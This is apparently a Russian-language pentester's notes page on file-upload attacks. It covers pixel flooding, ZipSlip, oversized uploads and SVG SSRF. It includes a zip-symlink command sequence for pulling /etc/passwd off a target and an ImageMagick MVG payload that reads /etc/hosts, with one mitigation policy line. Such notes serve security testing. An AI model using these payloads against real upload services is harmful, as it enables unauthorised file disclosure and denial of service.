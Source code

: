 # Some Attacks

## Video-files

Есть истории с манипуляциями длины ролика: в метаданных указываем длину ролика длиннее, чем на самом деле. В некоторых случаях, наивная оценка длины ролика при его преобразовании может сыграть злую шутку: ролик после конвертации может оказаться значительно больше, чем он есть на самом деле.

## Pixel Flooding

Подобна предыдущей атаке. Мы заливаем приложение, которое размером 200x200 пикселей, но в метаданных указано как 0xfafa x 0xfafa (64250 x 64250) пикселей. Когда сайт попытается конвертнуть такое изображение, мы получим application level DoS.

## Malicious PDF Generator

Генерим pdf с нашим url: [https://github.com/jonaslejon/malicious-pdf](https://github.com/jonaslejon/malicious-pdf)

## Загрузка больших файлов -> DoS

Приложение ограничивает максимальный размер загружаемого файла на стороне клиента, что позволяет загружать файлы большего размера, чем это запланировано разработчиками. Кроме того, приложение не ограничивает количество загружаемых файлов, что позволяет злоумышленнику загрузить большое количество произвольных файлов и вызвать отказ в обслуживании путем исчерпания дисковых квот.

## ZipSlip

Суть атаки: в zip запаковываются файлы с относительными путями. При распаковке они перетирают существующие файлы в системе.

## Zip with symlink

```
ln -s /etc/passwd test
zip -y test.zip test
-y -> отвечает за сохранение симлинков как есть
Кладем на систему целвую, потом оттуда забираем (если он там распаковывается и запаковывается)
Сохраняем, разархивируеем —> получаем файлы с целевой системы :)
```

## Есть какая-та тема с загрузкой cgi-скриптов на Apache сервер&#x20;

Они исполнятся в любом случае? (например, если приложение на Ruby, а загрузили php, или cgi)

А на Nginx?

## ImageMagick MVG

test.mvg:

```
push graphic-context 
  viewbox 0 0 800 600
  push graphic-context
    push graphic-context
      font-size 11
      fill 'white'
      stroke-width 1
      image over 1,1 800,600 'label:@/etc/hosts'
    pop graphic-context
  pop graphic-context
pop graphic-context
```

Convert:&#x20;

```
$ brew install magick
$ magick mvg:test.mvg test.png
```

Mitigation:

Запретить обработку MVG файлов: /etc/ImageMagick/policy.yml

```markup
 <policy domain="coder" rights="none" pattern="MVG" /> 
```

## SVG with SSRF

загружаем svg с ssrf нагрузкой. в некоторых ситуациях, сервер может сходить по этой нагрузке при предобработке информации
